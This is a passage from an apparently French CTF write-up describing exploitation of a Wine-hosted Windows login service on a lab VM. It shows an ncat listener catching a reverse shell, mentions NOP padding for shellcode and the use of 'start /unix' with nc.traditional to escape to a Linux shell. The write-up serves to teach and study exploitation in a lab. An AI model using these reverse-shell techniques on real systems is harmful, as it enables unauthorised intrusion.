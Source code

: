 On place quelques NOPs histoire d'être sûr que notre shellcode est bien callé en mémoire.

Après un test local on peut appliquer sur la VM. On obtient bien notre reverse shell :

```shellsession
$ ncat -l -p 4444 -v
Ncat: Version 7.93 ( https://nmap.org/ncat )
Ncat: Listening on :::4444
Ncat: Listening on 0.0.0.0:4444
Ncat: Connection from 192.168.56.50.
Ncat: Connection from 192.168.56.50:48510.
Microsoft Windows 6.1.7601 (4.0)

C:\users\fox>dir
Volume in drive C has no label.
Volume Serial Number is 0000-0000

Directory of C:\users\fox

 11/7/2022   7:33 PM  <DIR>         .
11/16/2020   5:58 PM  <DIR>         ..
11/16/2020   5:58 PM  <DIR>         AppData
11/16/2020   5:58 PM  <DIR>         Application Data
11/16/2020   5:58 PM  <DIR>         Contacts
11/16/2020   5:58 PM  <DIR>         Cookies
11/16/2020   5:58 PM  <DIR>         Desktop
11/16/2020   5:58 PM  <DIR>         Downloads
11/16/2020   5:58 PM  <DIR>         Favorites
11/16/2020   5:58 PM  <DIR>         Links
11/16/2020   5:58 PM  <DIR>         Local Settings
11/16/2020   5:58 PM  <DIR>         NetHood
11/16/2020   5:58 PM  <DIR>         PrintHood
11/16/2020   5:58 PM  <DIR>         Recent
11/16/2020   5:58 PM  <DIR>         Saved Games
11/16/2020   5:58 PM  <DIR>         Searches
11/16/2020   5:58 PM  <DIR>         SendTo
11/16/2020   5:58 PM  <DIR>         Start Menu
11/16/2020   5:58 PM  <DIR>         Temp
11/16/2020   5:58 PM  <DIR>         Templates
       0 files                        0 bytes
      20 directories      6,558,572,544 bytes free
```

Tout comme pour le CTF [CallMe](https://github.com/devl00p/blog/blob/main/ctf_writeups/Solution%20du%20CTF%20CallMe%20de%20VulnHub.md) j'ai utilisé la commande `start /unix` pour m'échapper de l'invite de commande Windows et obtenir un reverse shell avec `nc.traditional`.

Dans le dossier de l'utilisateur qui faisait tourner le service je trouve un script bash :

```shell
fox@netstart:/home/fox$ cat startup 
#!/bin/bash

xhost +si:localuser:fox
gsettings set org.gnome.desktop.session idle-delay 1
/usr/bin/wine login.exe
```
